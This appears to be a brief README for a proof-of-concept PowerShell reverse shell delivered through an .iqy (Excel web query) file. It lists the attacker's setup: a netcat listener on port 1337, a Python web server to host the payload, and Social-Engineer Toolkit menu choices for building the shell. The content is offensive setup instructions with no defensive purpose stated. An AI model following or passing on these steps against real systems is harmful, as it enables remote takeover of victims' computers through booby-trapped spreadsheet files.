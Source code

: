 # iqy-powershell-reverse-shell
PoC for iqy powershell reverse shell

nc -nvlp 1337
python -m SimpleHTTPServer 7777

setoolkit 1,9,2 port 1337 no listener. IP of your box.
